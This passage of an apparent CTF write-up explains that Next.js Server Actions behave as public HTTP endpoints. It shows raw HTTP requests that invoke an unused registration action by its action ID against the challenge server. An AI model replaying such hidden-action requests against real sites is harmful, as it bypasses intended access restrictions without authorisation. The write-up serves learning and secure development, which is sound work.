 If there was no such middleware, one could have simply sent the following request to invoke a Server Action with arbitrary parameters (not that it really matters, since we could call the Server Actions using Forms and requests for bounded actions anyway):

```
POST / HTTP/2
Host: www.example.com
Content-Type: text/plain; charset=UTF-8
Next-Action: 5033aa9e8e719350ff01f9a353595d64a7488812
Content-Length: XXX

[1337]
```

Great... So, what does all this mean for us? Essentially, as Next.js have kept on emphasizing throughout its documentation, `"You should basically treat Server Actions as public HTTP endpoints."` This means validation is a must when working with Server Actions, as they're accessible to clients and potentially vulnerable if mishandled. In the case of this challenge application, several unused Server Actions without proper validation were left exposed, making them accessible to all clients.

Now with all that said, much of the findings above were gathered after the CTF to deepen my understanding of how things work in Next.js under the hood.
During the competition how I got the first blood on the challenge, however, my approach was less structured. I mindlessly went havoc on the keyboard, my brains went brrr, and in combination with having a quick skim through the documentations, the flag just appeared...

## Exploitation

Cool, with the knowledge-sharing done! Let's take a look at the exploitation now :)

We start by setting up a local instance, where the registration page is modified by uncommenting the code for the forms in order for us to register a user locally. By replaying the request against the live server using the same Action ID, we could register a user successfully.

```
POST / HTTP/2
Host: ikutoppene-XXXX-shop-6.ept.gg
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Length: 472

------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_ID_22848b167831802fadcb34db9cc648e9d77b665f"


------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="username"

shirajuki
------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="password1"

asdzxc123
------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="password2"

asdzxc123
------WebKitFormBoundaryQApJRAsTKClOX1Fa--
```
